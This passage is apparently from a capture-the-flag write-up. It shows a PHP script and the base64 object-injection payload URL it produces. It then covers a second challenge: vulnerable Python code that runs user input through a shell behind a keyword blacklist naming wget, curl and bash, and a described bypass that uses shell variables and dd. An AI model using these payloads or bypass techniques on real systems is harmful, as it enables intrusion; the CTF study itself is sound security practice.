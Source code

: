 ```php
    public $input_B;
}

$obj = new IntuitionTest();
$obj->name = "ganteng"; 

$obj->expected_R = 0;
$obj->expected_G = 0;
$obj->expected_B = 0;

$obj->input_R = &$obj->expected_R;
$obj->input_G = &$obj->expected_G;
$obj->input_B = &$obj->expected_B;

$payload = base64_encode(serialize($obj));

echo $payload, "\n";
```
payload:

`http://chall-ctf.ara-its.id:8008/index.php?i=TzoxMzoiSW50dWl0aW9uVGVzdCI6Nzp7czo0OiJuYW1lIjtzOjc6ImdhbnRlbmciO3M6MTA6ImV4cGVjdGVkX1IiO2k6MDtzOjEwOiJleHBlY3RlZF9HIjtpOjA7czoxMDoiZXhwZWN0ZWRfQiI7aTowO3M6NzoiaW5wdXRfUiI7UjozO3M6NzoiaW5wdXRfRyI7Ujo0O3M6NzoiaW5wdXRfQiI7Ujo1O30===`

![{B7AD38BD-DEF0-4648-A64A-12CC9ED7F735}](https://hackmd.io/_uploads/H10AnlIKkx.png)


### El-Kebanteren
![{121F1A69-C463-4A09-814C-8917515B08C9}](https://hackmd.io/_uploads/S1YPE3rtyx.png)

command injcetion race condition (?)

there is command injcetion vuln in this func with blacklisted. and there is a command that rm the file generated every 0.5s.

to bypass the blacklist sets two shell variables so that flag.$a$b becomes “flag.txt” without ever writing the literal substring “txt” in the payload.
and use dd because it not blacklisted
```
        blacklist = [
        "ls", "cat", "rm", "mv", "id", "cp", "wget", "curl", "chmod", "chown", "find", "ps",
        "grep", "awk", "sed", "bash", "sh", "python", "perl", "php", "sudo", "whoami",
        "vi", "vim", "nano", "info", "uname", "more", "head", "less", "tail", "txt", "&&", "|", "`", "$(", ">", "<", "&", "'", '"', "*", "\n"
        ]

        if any(word in inputed for word in blacklist):
            return render_template('quotes.html', quotes=random_quote, inputed=inputed)

        process = subprocess.run(inputed, shell=True, capture_output=True, text=True)
        output = process.stdout

        get_date_minute = datetime.now().strftime('%Y%m%d%H%M')
        random_number = binascii.hexlify(get_date_minute.encode()).decode()
        file_name = f'{random_number}.txt'
        file_path = os.path.join(QUOTE_DIR, file_name)
        with open(file_path, 'w') as f:
            f.write(random_quote + '\n')
            f.write(output + '\n')
        
        os.system(f'sleep 0.5 && rm {file_path} &')
```
